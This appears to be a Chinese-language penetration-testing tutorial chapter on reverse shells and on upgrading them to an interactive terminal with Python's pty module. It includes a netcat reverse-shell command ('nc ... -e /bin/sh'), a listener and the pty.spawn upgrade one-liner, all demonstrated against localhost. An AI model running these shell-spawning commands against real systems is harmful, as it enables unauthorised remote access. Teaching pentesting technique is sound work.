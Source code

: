 ## 伪终端

这一章,我们来讲讲如何使用python做一个伪终端.不过在这之前你需要先了解一点伪终端的意思,还有一些技巧.这个我们会在下面讲到:

伪终端其实就是命令终端(cmd.exe,/bin/sh)通过网络接口反弹给攻击者,或者是新建一个监听端口反弹一个终端给攻击者,值得注意的就是原终端对于标准的输入,输出是不做处理的(stdin/stdout/stderr),同样的反弹的shell也是不对它做处理的.(ssh访问都是直接从键盘上读取).

这意味着有一些特殊的命令能够帮助你反弹shell,像我们最常见的就是使用netcat命令来反弹shell:

```
#启动netcat监听器
~$ nc -lvp 443
listening on [any] 443 ...
 
# 使用netcat反弹'/bin/sh'
~$ nc 127.0.0.1 443 -e /bin/sh
```

现在你可能注意到你看不到一些命令提示,我们输入几个命令试试:

```
id
uid=1000(kali) gid=1000(kali) groups=1000(kali)
 
uname -a
Linux kali 3.12-kali1-amd64 #1 SMP Debian 3.12.6-2kali1 (2014-01-06) x86_64 GNU/Linux
 
ls
bin
boot
dev
etc
home
initrd.img
lib
lib64
media
mnt
opt
proc
root
run
sbin
selinux
srv
sys
tmp
usr
var

```

上面这些命令运行会很正常,但是当你运行一些需要用户再次输入验证或者是编辑的命令就可能会出现问题,
例如(FTP,SSH,vi等),因为我们虚拟的终端它只有标准的输入输出功能,不会再次返回验证输入.
但是对于写文件我们可以使用echo命令来写入内容,这个对于现实是一点儿也不违和的.

在使用的过程中你也可能已经注意到了,它并有任何的提示性消息给您.这是因为命令的的提示消息是同过STDERR函数来传递的,
而在前面我们也讨论过我们实现的并不是一个原生终端,如果你想执行一些二进制的执行文件,譬如是meterpeter的执行文件就可能会出现错误.

对于已经安装了python的系统,我们可以使用python提供的pty模块,只需要一行脚本就可以创建一个原生的终端.下面是演示代码.执行第一行前
我还没有进入终端.

```
python -c "import pty;pty.spawn('/bin/bash')"

kali@kali:/$ uname -a
uname -a
Linux kali 3.12-kali1-amd64 #1 SMP Debian 3.12.6-2kali1 (2014-01-06) x86_64 GNU/Linux

kali@kali:/$ id
id
uid=1000(kali) gid=1000(kali) groups=1000(kali)

kali@kali:/$ ls
ls
bin    dev         home   lib64  opt      srv  usr
boot   initrd.img  media  proc   sbin     sys  var
etc    lib         mnt    root   selinux  tmp
kali@kali:/$


```

-c参数选项允许我们直接在命令终端里面执行指定脚本,上面那段脚本,我使用分号把两行代码合并为了一行.这样写并不为过.还有一点.
就是双引号里面只能使用单引号把/bin/bash引起来,如果使用双引号就出出现语法错误.就像下面这样:


```
python -c "import pty;pty.spawn("/bin/bash")"
```


虽然到目前为止写的虚拟终端并没有原生终端那样好,但是花点时间去折腾然后不断的去完善.相信会做的更好.
大家可能在渗透测试的时候会发现有些时候系统的命令终端是不允许直接访问的,那么这个时候用Python虚拟化一个终端相信会让你眼前一亮.
